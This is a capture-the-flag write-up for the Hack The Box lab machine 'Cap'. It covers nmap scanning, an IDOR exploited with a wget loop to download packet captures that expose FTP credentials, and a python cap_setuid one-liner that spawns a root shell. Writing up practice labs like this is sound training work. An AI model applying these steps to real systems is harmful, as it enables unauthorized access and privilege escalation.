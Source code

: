 ```yaml
---
tags:
  - hack
  - linux
---
```

# HTB: [Cap](https://app.hackthebox.com/machines/Cap)

## Enumeration

### `nmap`

#### TCP

- Target: `cap.htb 10.10.10.245`
- Command: `nmap -v --reason -Pn -T4 -p- --open -sCV -oA nmap_tcp-cap.htb cap.htb`

##### 21/tcp-ftp `vsftpd` `3.0.3`

##### 80/tcp-http `gunicorn`

```text
  GetRequest:
    HTTP/1.0 200 OK
    Server: gunicorn
...
```

### Manual Enumeration

The server is hosting a security dashboard with functionality to download `pcap` files, view IP configuration, and display `netstat` output.

![](_/htb-cap-20250418-1.png)

## Remote Code Execution

I spent a long time trying to exploit the capture mechanism by sending custom packets and probing for hidden `GET` parameters when it was actually just a simple IDOR exposing a previously created `pcap`. Thanks, [0xdf](https://0xdf.gitlab.io/2021/10/02/htb-cap.html).

```console
$ for i in {0..50} ; do wget 10.10.10.245/download/${i} -O ${i}.pcap 2>/dev/null || rm ${i}.pcap && ls -l ${i}.pcap 2>/dev/null; done
-rw-r--r-- 1 e e 9935 May 15  2021 0.pcap
^ RC=2

$ strings 0.pcap
...
220 (vsFTPd 3.0.3)
USER nathan
(su@
Jsv@
331 Please specify the password.
PASS Buck3...
(sw@
?sx@
230 Login successful.
...
```

## Privilege Escalation

From LinPeas:

```console
/usr/bin/python3.8 = cap_setuid,cap_net_bind_service+eip
```

```console
nathan@cap:/dev/shm$ /usr/bin/python3.8 -c 'import os,pty; os.setuid(0); pty.spawn("/bin/bash")'
root@cap:/dev/shm# id
uid=0(root) gid=1001(nathan) groups=1001(nathan)
```

## Notes

Look for the simple vectors first before burning time on more complicated ones.
